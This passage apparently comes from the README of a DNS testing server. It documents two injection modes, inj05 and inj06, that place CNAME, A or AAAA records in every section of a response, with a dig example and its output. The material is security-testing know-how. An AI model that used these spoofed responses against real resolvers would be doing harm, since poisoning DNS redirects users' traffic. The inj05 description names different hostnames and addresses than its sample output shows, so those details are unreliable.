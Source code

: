 ```
;; Query time: 0 msec
;; SERVER: 127.0.0.1#53(127.0.0.1) (UDP)
;; WHEN: Thu Nov 02 16:37:19 +04 2023
;; MSG SIZE  rcvd: 115
```
### Injection 5 - CNAME and A records in all sections (inj05)
Respond with CNAME (inj05poc.yourdomain.com) in all sections + inject also A record of it (inj05poc.yourdomain.com -> 6.6.6.6) in all sections.

<table>
<tr><td>format:</td><td>inj05.[replq].[addq].[3rdparty].yourdomain.com</td></tr>
<tr><td>remark:</td><td>replq (optional) - will replace the question in the response with inj05poc.yourdomain.com</td></tr>
<tr><td>remark:</td><td>addq (optional) - will add additional question for inj05poc.yourdomain.com in the response</td></tr>
<tr><td>remark:</td><td>3rdparty (optional) - will do injection for 3rd party (whatever.com), rather than yourdomain.com</td></tr>
<tr><td>example:</td><td><code>dig inj05.yourdomain.com @127.0.0.1</code></td></tr>
</table>

Sample:
```
# dig inj05.yourdomain.com @127.0.0.1

; <<>> DiG 9.18.10-2-Debian <<>> inj05.yourdomain.com @127.0.0.1
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 4990
;; flags: qr aa; QUERY: 1, ANSWER: 2, AUTHORITY: 2, ADDITIONAL: 2

;; QUESTION SECTION:
;inj05.yourdomain.com.		IN	A

;; ANSWER SECTION:
inj05.yourdomain.com.	60	IN	CNAME	injected05.yourdomain.com.
injected05.yourdomain.com. 60	IN	A	6.6.6.5

;; AUTHORITY SECTION:
inj05.yourdomain.com.	60	IN	CNAME	injected05.yourdomain.com.
injected05.yourdomain.com. 60	IN	A	6.6.6.5

;; ADDITIONAL SECTION:
inj05.yourdomain.com.	60	IN	CNAME	injected05.yourdomain.com.
injected05.yourdomain.com. 60	IN	A	6.6.6.5

;; Query time: 0 msec
;; SERVER: 127.0.0.1#53(127.0.0.1) (UDP)
;; WHEN: Thu Nov 02 16:37:19 +04 2023
;; MSG SIZE  rcvd: 338
```
### Injection 6 - CNAME and AAAA records in all sections (inj06)
Respond with CNAME (inj06poc.yourdomain.com) in all sections + inject also AAAA record of it (inj06poc.yourdomain.com -> 6666:6666:6666:6666:6666:6666:6666:6666) in all sections.
